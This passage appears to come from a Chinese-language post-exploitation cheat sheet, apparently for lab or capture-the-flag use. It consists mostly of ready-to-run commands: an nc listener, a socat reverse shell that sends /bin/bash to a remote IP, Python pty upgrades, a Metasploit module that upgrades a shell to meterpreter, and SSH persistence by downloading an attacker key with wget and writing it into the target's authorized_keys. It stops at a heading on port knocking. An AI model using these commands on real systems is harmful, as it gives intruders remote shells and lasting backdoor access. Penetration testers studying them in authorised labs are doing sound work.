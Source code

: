 nc监听本地端口  

```
nc -lvnp 1234

```

## 三、交互式终端  
  
利用socat工具创建交互式终端并反弹shell（没有python的使用方法）  

```
./socat tcp:10.10.10.128:1234 exec:'/bin/bash -li',pty,stderr,sigint,sighup,sigquit,sane

```

  
利用python创建交互式终端  

```
python -c 'import pty; pty.spawn(&#34;/bin/bash&#34;)';
python2 -c 'import pty; pty.spawn(&#34;/bin/bash&#34;)';
python3 -c 'import pty; pty.spawn(&#34;/bin/bash&#34;)';

```

  
利用msf创建交互式终端  

```
use post/multi/manage/shell_to_meterpreter
set session 2 # 设置已经上线的会话
run

```

  
使用ssh创建密匙文件  

```
ssh-keygen -t rsa -b 4096
# 回车
# 回车
# 回车

# 靶机
wget 10.10.10.130:5000/id_rsa.pub
chmod 700 /tmp/forest/home/ubuntu/.ssh/
cp id_rsa.pub /tmp/forest/home/ubuntu/.ssh/authorized_keys
chmod 600 /tmp/forest/home/ubuntu/.ssh/authorized_keys

# 对于低版本的openssh需要使用算法配置，下面是一些常用的排错方法
ssh ubuntu@10.10.10.131 -oPubkeyAcceptedKeyTypes=+ssh-rsa -i id_rsa
ssh -oHostKeyAlgorithms=+ssh-rsa -oPubkeyAcceptedKeyTypes=+ssh-rsa -i rain_rsa ubuntu@10.10.10.131

```

  
shell敲击（敲门）  
